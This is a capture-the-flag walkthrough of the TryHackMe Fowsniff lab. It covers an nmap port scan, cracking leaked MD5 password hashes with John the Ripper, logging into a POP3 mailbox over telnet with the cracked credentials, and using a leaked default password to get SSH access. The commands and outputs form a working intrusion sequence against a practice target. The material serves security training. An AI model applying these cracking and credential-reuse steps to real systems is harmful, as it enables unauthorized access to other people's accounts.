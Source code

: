 # Fowsniff CTF - TryHackMe

## Using nmap, scan this machine. What ports are open?

I used `nmap [target ip]` to scan for open ports on the machine, revealing:

```
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
110/tcp open  pop3
143/tcp open  imap
```

Various nmap flags are suggested in the question hint, including:
-A -> Enables OS detection, version detection, script scanning, and traceroute
-p- -> Scans all ports (as opposed to the most common 1000 port scanned by default)
-sV -> Attempts to determine the version of the service running on the port

## Using the information from the open ports. Look around. What can you find?

Port 80 is being used, which suggests an insecure web service is being run.
Port 22 will likely be used later to connect to the machine once a username/password is discovered.

I didn't know much about pop3/imap so had to do some research...

### POP3 vs IMAP [source](https://doteasy.com/blog/pop3-vs-imap-which-one-should-you-use)

- Both protocol are used to ssend email from email servers to email clients.
- POP3 stands for Post Office Protocol and acts like such - the email is downloaded onto the client then removed from the mail server. When accessing emails, a copy of the emails is stored on the client and usually deleted from the mail server, so the emails cannot be accessed by other clients. If the original copies of the emails are kept on the mail server, then they are not synced with those on clients.
- IMAP is the Internet Message Access Protocol, which allowss multiple clients/webmail interfaces to view the sasme emails - since the emails are stored on a central server rather than a client. This means that actions are synced across devices.

IMAP seems to be more common for personal use, whereas POP3 offers added security (single client) and resiliency in case of internet outage. This is a tradeoff for relying on the resilience of the client where the emails are stored, and the lack of availability across multiple devices.

Anyhoo, I used the web browser to visit the IP address. The Fowsniff Corp website describes a data breach that recently occurred, and points to @fowsniffcorp on Twitter. That Twitter page had been taken over by the attacker, who released MD5 hashes of user passwords:

```
mauer@fowsniff:8a28a94a588a95b80163709ab4313aa4
mustikka@fowsniff:ae1644dac5b77c0cf51e0d26ad6d7e56
tegel@fowsniff:1dc352435fecca338acfd4be10984009
baksteen@fowsniff:19f5af754c31f1e2651edde9250d69bb
seina@fowsniff:90dc16d47114aa13671c697fd506cf26
stone@fowsniff:a92b8a29ef1183192e3d35187e0cfabd
mursten@fowsniff:0e9588cb62f4b6f27e33d449e2ba0b3b
parede@fowsniff:4d6e42f56e127803285a0a7649b5ab11
sciana@fowsniff:f7fd98d380735e859f8b2ffbbede5a7e
```

I then used the following 'back of the envelope python' to grab just the hashes and save them in another txt file (wasn’t necessary using John the Ripper):

```
with open("hashes.txt") as reader:
    with open("justhashes.txt", 'w') as writer:
        for i in reader:
            writer.write(str(i.split(":")[-1]))
```

I then used John the Ripper to crack the MD5 hases (web tools can also be used):

```
john --wordlist=/root/Desktop/Tools/wordlists/rockyou.txt --format=raw-MD5 hashes.txt
```

Giving us all the passwords (except for stone's!)

```
scoobydoo2       (seina@fowsniff)
orlando12        (parede@fowsniff)
apples01         (tegel@fowsniff)
skyler22         (baksteen@fowsniff)
mailcall         (mauer@fowsniff)
07011972         (sciana@fowsniff)
carp4ever        (mursten@fowsniff)
bilbo101         (mustikka@fowsniff)
```

We can then log in to the pop3 mail server using _seina_'s credentials, using `telnet 10.10.85.5 110`. We can then log in as _seina_ and retrieve her emails.

```
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
RETR 2
```

We find out:
- That there was/is an SQL database vulnerability
- That the temporary SSH password is S1ck3nBluff+secureshell
- Devin/seina has been away so may not have changed their password, and Skyler/bakesteen hasn't read AJ Stone's message about the SSH password, so likely hasn't changed it from the default.

And as suspected, we can SSH into baksteen's account with the default password. We can then check the groups that baksteen is in with `groups baksteen` - _users_ and _baksteen_.